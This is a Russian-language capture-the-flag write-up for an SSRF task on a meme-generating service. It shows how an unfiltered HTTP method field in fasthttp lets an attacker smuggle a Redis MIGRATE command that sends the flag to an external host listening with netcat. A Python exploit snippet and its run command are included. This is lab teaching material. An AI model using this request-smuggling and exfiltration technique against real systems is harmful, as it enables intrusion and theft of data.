





# LetoCTF Taskbot 2022 | 04-rjakenBot

Автор: [lololozhkin](https://github.com/lololozhkin)

## Информация

Написал сервис для создания смешных картинок! Для этого пришлось обучить нейронную сеть на миллионах постироничных мемов с просторов интернета. Заранее написал сервис так, чтобы он масштабировался вертикально, горизонтально и диаганально, потому что его ждет неминуемая популярность!

Хватит слов, пора создать свой classique meme)

## Описание

На вход сервис принимает ссылку на картинку и HTTP метод, с помощью которого можно получить картинку по ссылке (GET или POST).


На выходе сервис выдает картинку с рандомной надписью, что называется "мем" у молодежи.

Внутри сервис ходит по ссылке с заданным методом, чтобы получить картинку, а затем на ней рисует.
Чтобы не отрисовывать на одних и тех же картинках текст по несколько раз, и чтобы подолгу не ходить за картинками в интернет, используется redis в качестве кэша.

Сам таск на уязвимость SSRF (server side request forgery), которая заключается в том, что клиент может отправлять запросы во внутреннюю, закрытую сеть (куда он не должен уметь отправлять запросы).

## Решение

В коде видим запуск горутины, которая кладет флаг в redis каждую секунду, значит нам нужно каким-то образом достучаться до redis'а.



Сервис запущен в docker-compose, значит можно обратиться к контейнеру redis'а через адрес http://redis:6379. Так же обращается к redis'у и само приложение.



Мы можем отправить запрос на redis, если укажем `pictureUrl: http://redis:6379`, ведь в сервисе нет фильтрации на ссылку. Однако так просто общаться c кэшом не получится, потому что redis не поддерживает HTTP.

Redis использует протокол [RESP](https://redis.io/docs/reference/protocol-spec/). Этот протокол работает поверх TCP, как и HTTP, поэтому можно попробовать видоизменить HTTP запрос так, чтобы он стал приниматься как RESP.

Для отправления запросов используется не стандартная библиотека http, а библиотека fasthttp, возможно в ней нет должной фильтрации или экранирования поля method.



Попробовав положить в method любую строку, понимаем, что фильтрации на method в библиотеке нет и мы можем класть туда что захотим.



Почитав документацию по RESP узнаем, что запросы в redis разделяются с помощью `\r\n`, следовательно в method мы можем положить любой пэйлоад для редиса и поставить в конце `\r\n`, чтобы остатки http запроса не помешали.

Мы умеем отправлять запросы в redis. Последняя проблема заключается в том, что мы не можем получать от него ответы, ведь redis отдает resp ответы, которые не интерпретируюстя в http. Осталось понять какой запрос можно отправить, чтобы все же получить данные из redis.
Здесь есть много вариантов, но мы остановимся на команде [MIGRATE](https://redis.io/commands/migrate/).



Мы можем взять любую виртуалку с открытым ip, слушать нужный порт (например с помощью `nc -lp 6379`) и ждать, пока нам прилетит значение по ключу `flag`.

Сплойт:
```python
...

def main():
    args = parse_args()
    payload = f'MIGRATE {args.migrate_to_host} {args.migrate_to_port} flag 0 1000\r\n'

    resp = requests.post(f'{args.service_url}/image', json={
        'pictureLink': args.redis_url,
        'method': payload,
    })

    print(resp.text)

...
```

В ответ мы получим сообщение об ошибке, но на удаленной машинке мы увидим прилетевший флаг!

Пример запуска:
```bash
./sploit.py --migrate-to-host 167.99.211.138 --service-url http://localhost:14448
```

## Флаг

`LetoCTF{0mG_Wh4t_w4s_Th4T??_w4s_1t_p05t1r0ny???}`
